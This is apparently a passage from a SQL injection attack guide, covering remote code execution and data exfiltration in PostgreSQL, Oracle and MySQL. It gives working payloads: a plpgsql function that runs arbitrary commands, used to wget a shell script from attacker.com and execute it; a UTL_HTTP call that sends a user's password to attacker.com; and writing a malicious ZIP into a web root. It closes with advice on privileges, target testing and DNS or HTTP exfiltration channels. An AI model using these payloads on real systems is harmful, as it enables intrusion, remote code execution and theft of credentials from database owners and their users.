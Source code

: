 - Creating a custom function:

```sql
CREATE OR REPLACE FUNCTION exec_cmd(cmd text) RETURNS void AS $$
BEGIN
    EXECUTE cmd;
END;
$$ LANGUAGE plpgsql;
```

- Then calling the function:

```sql
SELECT exec_cmd('wget http://attacker.com/shell.sh -O /tmp/shell.sh && bash /tmp/shell.sh');
```

#### 6. **Data Exfiltration with RCE**

##### Scenario:

Use SQL Injection to pass data to an external service while executing commands.

##### Example in **Oracle**:

- Exploiting the `UTL_HTTP` function to send HTTP requests containing sensitive data:

```sql
BEGIN
  UTL_HTTP.REQUEST('http://attacker.com/collect?data=' || (SELECT password FROM users WHERE id=1));
END;
```

- Combine this with an HTTP response containing malicious commands.

#### 7. **Uploading and Extracting Files via Storage Functions**

##### Scenario:

Upload malicious files to the server using storage functions or `BLOB` data.

##### Example in **MySQL**:

- Writing a ZIP file containing malicious code:

```sql
SELECT LOAD_FILE('/path/to/malicious.zip') INTO DUMPFILE '/var/www/html/malicious.zip';
```

- Extract and execute the code.

##### Important Notes:

1. **Privilege Analysis**:
    - Ensure the level of database user privileges, as some scenarios require elevated permissions.
2. **Confirm Vulnerability**:
    - Not all databases support the same functions. Test the target environment carefully.
3. **Use External Channels**:
    - If direct commands are disabled, use channels like DNS or HTTP for data extraction and attack execution.
